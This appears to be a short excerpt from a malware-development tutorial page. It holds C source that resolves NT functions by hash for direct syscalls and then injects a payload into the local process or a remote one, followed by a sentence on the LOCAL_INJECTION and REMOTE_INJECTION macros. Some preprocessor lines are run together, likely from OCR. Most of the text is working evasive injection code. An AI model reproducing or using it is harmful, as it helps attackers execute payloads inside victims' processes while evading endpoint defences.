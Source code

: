 ```
	VX_TABLE Table = { 0 };
	Table.NtAllocateVirtualMemory.dwHash = NtAllocateVirtualMemory_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
		return 0x1;

	Table.NtWriteVirtualMemory.dwHash = NtWriteVirtualMemory_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
		return 0x1;

	Table.NtProtectVirtualMemory.dwHash = NtProtectVirtualMemory_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
		return 0x1;

	Table.NtCreateThreadEx.dwHash = NtCreateThreadEx_djb2;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
		return 0x1;

//--------------------------------------------------------------------------
	// injection code - calling the 'ClassicInjectionViaSyscalls' function


// If local injection
#ifdef LOCAL_INJECTIONif (!ClassicInjectionViaSyscalls(&Table, (HANDLE)-1, Payload, sizeof(Payload)))
		return 0x1;
#endif // LOCAL_INJECTION// If remote injection
#ifdef REMOTE_INJECTION// Open a handle to the target process
	printf("[i] Targeting process of id : %d \n", PROCESS_ID);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID);
	if (hProcess == NULL) {
		printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
		return -1;
	}

	if (!ClassicInjectionViaSyscalls(&Table, hProcess, Payload, sizeof(Payload)))
		return 0x1;

#endif // REMOTE_INJECTIONreturn 0x00;
}

```
### **Local vs Remote Injection**

Since the implemented `ClassicInjectionViaSyscalls` can work on both the local process and the remote process level, a preprocessor macro code was constructed to target the local process if `LOCAL_INJECTION` is defined. The preprocessor code is shown below.

